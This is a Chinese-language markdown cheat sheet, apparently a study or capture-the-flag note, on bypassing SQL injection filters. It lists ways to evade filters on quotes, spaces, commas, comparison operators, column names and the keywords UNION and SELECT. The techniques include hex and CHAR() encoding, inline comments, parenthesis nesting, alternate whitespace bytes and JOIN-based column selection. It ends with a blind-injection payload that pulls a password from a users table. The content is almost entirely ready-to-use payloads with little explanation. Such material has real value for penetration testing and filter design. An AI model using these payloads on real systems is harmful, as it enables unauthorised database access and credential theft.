 # SQL注入绕过

## 过滤引号
- 十六进制
```sql
SELECT * FROM users WHERE username = 0x637466;
```

- CHAR()函数
```sql
SELECT * FROM users WHERE username = CHAR(99, 116, 102);
```

## 过滤空格
- 注释
	- /**/
	- /\*something\*/
	- /\*! MySQL-specific code \*/
- 括号
```sql
UNION(SELECT(column)FROM(table));
```
- 等价字符

|编码|含义|
|---|---|
|09|Horizontal Tab|
|0A|New Line|
|0B|Vertical Tab|
|0C|New Page|
|0D|Carriage Return|
|A0|Non-breaking Space|
|20|Space|

## 过滤逗号

- JOIN（联表查询）

```sql
-1 UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b 
```

- LIMIT 1 OFFSET 0
- FROM x FOR y
	- mid(user() from 1 for 1)
	- substr(user() from 1 for 1)


## 过滤比较操作符
寻找等价操作符
[Comparison Functions and Operators官方文档](https://dev.mysql.com/doc/refman/8.0/en/comparison-operators.html)

|符号|1|
|--|--|
|大于(等于)|>、>=、GREATEST()|
|小于(等于)|<、<=、|

## 过滤字段名

```sql
select x.3 from (select * from (select 1)a JOIN (select 2)b JOIN (select 3)c union(select * from users))x;
```

## 过滤关键词
### UNION
- `/union\s+select/i`
	- UNION(SELECT)
	- UNION [ALL|DISTINCT] SELECT
	- UNION/\*!SELECT\*/
	- UNION/**/SELECT
	- UNION%A0SELECT
- `/union/i`
将联合查询注入转化为盲注

```sql
' AND (SELECT pass FROM users LIMIT 1)='secret
```

### SELECT
- `/SELECT\s+[A-Za-z\.]+\s+FROM/i`
- `/SELECT/i`